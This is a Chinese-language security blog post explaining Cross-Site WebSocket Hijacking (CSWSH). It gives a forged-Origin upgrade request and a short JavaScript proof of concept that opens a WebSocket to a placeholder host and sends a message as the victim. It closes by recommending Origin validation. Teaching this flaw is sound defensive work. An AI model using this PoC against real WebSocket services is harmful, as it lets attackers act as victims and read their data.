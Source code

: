 ```yaml
---
layout: post
author: Vulkey_Chen
title: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
date: 2019-03-20
music-id: 28661853
permalink: /archives/2019-03-20/1
description: "浅谈WebSocket跨域劫持漏洞(CSWSH)"
---
```


# WebSocket 跨域劫持漏洞

WebSocket 跨域劫持漏洞，英文名：**Cross-site WebSocket Hijacking**，漏洞类型：全能型CSRF（可读、可写）。

## 了解WebSocket

### Websocket 优点

1. 支持双向通信，实时性更强。
2. 更好的二进制支持。
3. 较少的控制开销。连接创建后，ws客户端、服务端进行数据交换时，协议控制的数据包头部较小。在不包含头部的情况下，服务端到客户端的包头只有2~10字节（取决于数据包长度），客户端到服务端的话，需要加上额外4字节的掩码。而HTTP协议每次通信都需要携带完整的头部。
4. 支持扩展。ws协议定义了扩展，用户可以扩展协议，或者实现自定义的子协议。（比如支持自定义压缩算法等）

### Websocket 如何建立连接

画了一张图让你了解：

![websocket](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/0.png)


## 漏洞产生

建立Websocket连接无验证。

### 案例

1.如下请求：

```http
GET / HTTP/1.1
Host: localhost:8080
Origin: http://127.0.0.1:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: w4v7O6xFTi36lq3RNcgctw==

```

篡改Origin，发现没有对Origin进行验证，也可以跨域进行协议升级。

2.进一步验证

2.1获取到了一个发送评论的请求

![test](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/1.png)

2.2使用JavaScript创建Websocket请求

```html
<meta charset="utf-8">
<script>
function ws_attack(){
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
		ws.close();
	};
}
ws_attack();
</script>
```

2.3验证发现可以请求并成功进行重放，存在Websocket跨域劫持

（这里只是简单的评论请求，危害就是：点我链接让你评论我想评论的，试想：如果是修改密码的WebSocket请求存在劫持那么问题就大了～）

## 漏洞利用

攻击流程跟以往的交互类漏洞没什么区别（点我链接读取你XXX、点我链接让你XXX）：

![attack](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/2.png)

来一个圈子"铸剑实战靶场"的截图，自我体会：

![success](https://vulkey.oss-cn-hangzhou.aliyuncs.com/CSWSH/3.png)

### PoC代码编写

```html
<meta charset="utf-8">
<script>
function ws_attack(){//自定义函数ws_attack
    //定义函数功能
    //创建WebSocket并赋值给ws变量
	var ws = new WebSocket("ws://域名:端口/");//如果请求的Websocket服务仅支持HTTP就写成ws://，如果请求的Websocket服务支持HTTPs就写成wss://
	ws.onopen = function(evt) { 
        //当ws(WebSocket)处于连接状态时执行
		ws.send("我是帅key的可爱小迷弟！");
	};
	ws.onmessage = function(evt) {
        //当ws(WebSocket)请求有响应信息时执行
        //注意：响应的信息可以通过evt.data获取！例如：alert(evt.data);
		ws.close();
	};
}
ws_attack();//执行ws_attact函数
</script>
```

## 修复方法

综合建议：校验Origin头

# Reference

https://www.cnblogs.com/chyingp/p/websocket-deep-in.html
